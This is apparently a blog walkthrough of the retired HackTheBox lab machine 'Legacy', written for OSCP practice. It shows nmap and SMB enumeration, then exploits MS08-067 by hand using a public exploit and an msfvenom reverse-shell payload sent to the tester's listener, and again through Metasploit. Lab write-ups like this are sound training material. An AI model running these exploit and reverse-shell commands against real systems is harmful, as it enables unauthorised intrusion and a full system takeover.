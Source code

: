 ```yaml
---
layout: post
title:  "HackTheBox - Legacy"
---
```

HackTheBox is a great platform for hackers/penetration testers to practice and learn with. Their network consists of 2 machine pools - Active and Retired. Active machines have no writeups and grant points to your profile and allow you to rank up and climb the leaderboard. Retired machines have many writeups and are great for learning and completing for fun, but don’t give points towards a higher rank. “Legacy” is one of the first machines created on HackTheBox and is widely considered great practice for the OSCP certification, so I completed it as part of my Path to OSCP.

![LegacyInfo](/assets/Legacy/LegacyInfo.png)

![LegacyDone](/assets/Legacy/LegacyDone.png)

Legacy is considered by many on HackTheBox to be similar to what you'd see in the OSCP labs. The machine is vulnerable to the classic MS08-067 vulnerability which has a non-interractive exploit that grants a full SYSTEM shell, much like the MS17-010 EternalBlue vulnerability I leveraged in my "Blue" writeup. I decided to exploit this machine both manually and with Metasploit as it's good practice for the OSCP, where you're limited on Metasploit usage on the exam. I'll be showing both in this writeup.

## Initial Enumeration

First, I start by enumerating the open ports on 10.10.10.4 with the usual HTB nmap scan
```
nmap -sC -sV -oA nmap/initial 10.10.10.4
```

![LegacyNMAP](/assets/Legacy/LegacyNMAP.png)

The nmap scan shows this machine is using Windows XP which is an immediate red flag, this will most likely be part of the attack vector. It only has ports 139 and 445 open for SMB, which again is pretty obvious this will be some kind of Windows XP SMB vulnerability.

## SMB Enumeration

To enumerate more and gather information on the machine, I poke around a bit using smbclient, but end up getting timed out
```
smbclient -L 10.10.10.4
```

![LegacySMBClientTimeout](/assets/Legacy/LegacySMBClientTimeout.png)

I then try to use smbmap, but am now getting Access Denied errors. SMB seems to be locked down as we dont have full credentials and get timed out when trying to connect with smbclient
```
smbmap -H 10.10.10.4
```

![LegacySMBAccessDenied](/assets/Legacy/LegacySMBAccessDenied.png)

## SMB Vulnerability Scanning

The next step is to try looking for vulnerabilities, as I knew right away there would be plenty of them given the OS discovered earlier. nmap has a great scripting engine for this
```
nmap --script smb-vuln* -p 139,445 10.10.10.4
```

![LegacyNMAPSMBVuln](/assets/Legacy/LegacyNMAPSMBVuln.png)

Here, my wildcard on smb-vuln tells nmap to check for all SMB vulnerabilities in it's available scripts. As you can see in my screenshot, I have X's next to CVE-2009-3103 as it only applies to Windows Vista, Windows Server 2008, and Windows 7. Admittedly, I chased after this for a bit and realized after I modified and crafted the Buffer Overflow exploit to my needs...lesson learned, even if the scan says VULNERABLE, read the full text to see if your OS version and service versions are actually vulnerable! In my case, this machine was vulnerable to MS08-067. 

## Manual Exploitation

Luckily, compared to the previous exploit I was working on, I had found a public exploit on Github that "ignores" the requirement for a 410 byte BOF which was a lot of work on the previous rabbit hole I went down:
```
https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
```
```
# Gotta make No-Ops (NOPS) + shellcode = 410 bytes
num_nops = 410 - len(shellcode)
newshellcode = "\x90" * num_nops
newshellcode += shellcode  # Add NOPS to the front
shellcode = newshellcode   # Switcheroo with the newshellcode temp variable
```

Now, all that needed to be done was replace the shellcode in the exploit with my own and I was good to go. I use msfvenom to generate my shellcode. This is legal on the OSCP exam. In the example below I chose to format the payload in python, but C will work as well (in the Github example) and is much easier to copy and paste
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows
```

![LegacyMSFVenom](/assets/Legacy/LegacyMSFVenom.png)

I take the shellcode payload and place it into the public exploit. This tells the exploit to take the SYSTEM shell and send it to my IP address over port 443, which I have a netcat listener waiting on.

![LegacyModifiedExploit](/assets/Legacy/LegacyModifiedExploit.png)

Now I run the manual exploit and get a SYSTEM shell. I don't think Windows XP had whoami to detect who you're logged in as, but MS08-067 is a full SYSTEM exploit. From here, I grab the user.txt and root.txt flags to add to my Hack The Box profile
```
python ms08_067.py 10.10.10.4 6 445
```

![LegacyManualSYSTEM](/assets/Legacy/LegacyManualSYSTEM.png)

user.txt flag

![LegacyUserFlag](/assets/Legacy/LegacyUserFlag.png)

root.txt flag

![LegacyRootFlag](/assets/Legacy/LegacyRootFlag.png)

## Metasploit Exploitation

Now onto Metasploit. An exploit module exists for the MS08-067 vulnerability and is very easy to use. The configuration of the module is available on Rapid7's website.
```
https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
```

![LegacyR7MS08-067](/assets/Legacy/LegacyR7MS08-067.png)

I start msfconsole and configure it to use exploit/windows/smb/ms08_067_netapi, and configure my targeting to detect the OS automatically, which is convenient as we had to use manual OS detection in the manual exploit. This exploit, much like MS17-010, is kind of dangerous as you can take down the service easily if you don't choose the right options

![LegacyMSTarget](/assets/Legacy/LegacyMSTarget.png)

I set the RHOST (target IP) to the IP of Legacy, and run the exploit to get a meterpreter session with a SYSTEM shell

![LegacyMSOptions](/assets/Legacy/LegacyMSOptions.png)

As you can see below, again we don't have whoami available because I don't believe that was in Windows XP. However, we have full rights to all folders on the OS and in particular the ones we care about for Hack The Box to get the proof flags

![LegacyMSSYSTEM](/assets/Legacy/LegacyMSSYSTEM.png)

## Conclusion

Like most machines on Hack The Box, Legacy was really fun. Exploiting Legacy with Metasploit is very easy and I'm positive was the intended way given the easy rating of the machine, but the manual exploitation is a little harder. To exploit manually you need to have a basic understanding of Buffer Overflow exploits to get the payload size correct by adding NOP Sleds, but as I stated before there is a very useful public exploit available on Github that ignores this. Hit me up in the Hack The Box Discord server or on Twitter @rootcollector if you want to chat or have any questions.